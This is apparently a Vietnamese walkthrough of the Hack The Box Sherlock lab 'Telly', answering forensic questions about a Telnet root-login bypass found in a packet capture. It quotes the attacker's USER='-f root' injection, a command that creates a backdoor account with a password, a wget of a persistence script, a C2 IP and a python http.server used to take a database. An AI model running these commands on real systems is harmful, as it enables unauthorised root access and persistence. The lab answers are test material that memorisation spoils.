

# Telly

URL: https://app.hackthebox.com/sherlocks/Telly?tab=play_sherlock

### Task 1: What CVE is associated with the vulnerability exploited in the Telnet protocol?

- Telnet là giao thức giống SSH nhưng không có secure
- Lọc ra giao thức Telnet, folow tcpstream, chữ màu đỏ là client gửi sang server, còn màu xanh là ngược lại.
  
- Ta thấy chuỗi `USER.-f root`
  - Telnet cho phép tính năng Option Negotiation, nếu máy khách muốn truyền trước thông tin ngữ cảnh (như loại terminal đang dùng, hoặc tên user muốn đăng nhập), hãy đóng gói nó thành các Biến môi trường và gửi đi
  - Nghĩa là tạo biến môi trường USER=”-f root” và gửi lên server đang SSH
  - Server sẽ chạy lệnh như `/bin/login -h [IP_của_kẻ_tấn_công] -f root`
    , -f là bắt buộc đăng nhập bằng root
- `CVE-2026-24061`

[https://www.cve.org/CVERecord?id=CVE-2026-24061](https://www.cve.org/CVERecord?id=CVE-2026-24061)

### Task 2: When was the Telnet vulnerability successfully exploited, granting the attacker remote root access on the target machine?

- Đổi hiển thị thời gian sang UTC Date and Time of Day
- Display Filter: `telnet contains "USER”`
- Ra gói tin 52

⇒ `2026-01-27 10:39:28`

### Task 3: What is the hostname of the targeted server?

- Nhìn vào dấu nhắc lệnh `root@backup-secondary`

⇒ Hostname là `backup-secondary`

### Task 4: The attacker created a backdoor account to maintain future access. What username and password were set for that account?

- Tìm được dòng lệnh tạo user và thêm password
  `sudo useradd -m -s /bin/bash cleanupsvc; echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd`

⇒ Đáp án: `cleanupsvc:YouKnowWhoiam69`

### Task 5: What was the full command the attacker used to download the persistence script?

⇒ Đáp án:

`wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`

### Task 6: The attacker installed remote access persistence using the persistence script. What is the C2 IP address?

⇒ Đáp án: `91.99.25.54`

### Task 7: The attacker exfiltrated a sensitive database file. At what time was this file exfiltrated?

- Attacker đã vào thư mục /otp sau đó chạy http.server để tạo một HTTP server đơn giản bằng module có sẵn trên python3, cho phép tải toàn bộ file của server trên web.

- Các phản hồi từ server trả về cho thấy có IP của attacker là 192.168.72.131 truy cập HTTP server đó để tải file
- Dòng cuối cùng là file mà attacker đã tải về thành công qua method GET cùng với đó là thời gian file được tải.

⇒ Đáp án: `2026-01-27 10:49:54`

### Task 8: Analyze the exfiltrated database. To follow compliance requirements, the breached organization needs to notify its customers. For data validation purposes, find the credit card number for a customer named Quinn Harris.

- Sử dụng tính năng **Export Objects** trên wireshark để mở các file đã truyền qua các gói tin.
  Vào menu **File** -> **Export Objects** -> **HTTP...**
- Mở file đó bằng DB Browser, tìm thấy Quinn Harris ở row 12.

⇒ Đáp án: `5312269047781209`
